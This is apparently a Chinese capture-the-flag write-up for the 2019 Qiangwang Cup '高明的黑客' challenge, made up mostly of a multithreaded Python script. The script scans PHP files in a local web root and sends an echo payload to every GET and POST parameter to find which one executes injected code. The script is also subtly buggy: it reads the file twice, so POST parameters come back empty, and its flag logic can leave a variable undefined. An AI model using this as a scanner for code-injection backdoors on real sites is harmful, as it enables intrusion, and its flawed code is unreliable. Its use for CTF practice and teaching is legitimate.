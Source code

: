 ## [强网杯 2019]高明的黑客

找到了利用文件： xk0SzyKwfzw.php  and 找到了利用的参数：Efa5BVG

```python
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(50)                                            #这儿设置最大的线程数
filePath = r"D:\phpstudy_pro\WWW\src"
os.chdir(filePath)                                                    #改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5                                #设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False                                             # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:                            #打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}                                                        #所有的$_POST
    params = {}                                                        #所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)            #一次性请求所有的GET和POST
    req.close()                                                # 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:                                    #如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()                                                # 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()                                                # 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:                                                    #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:                                                            #加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```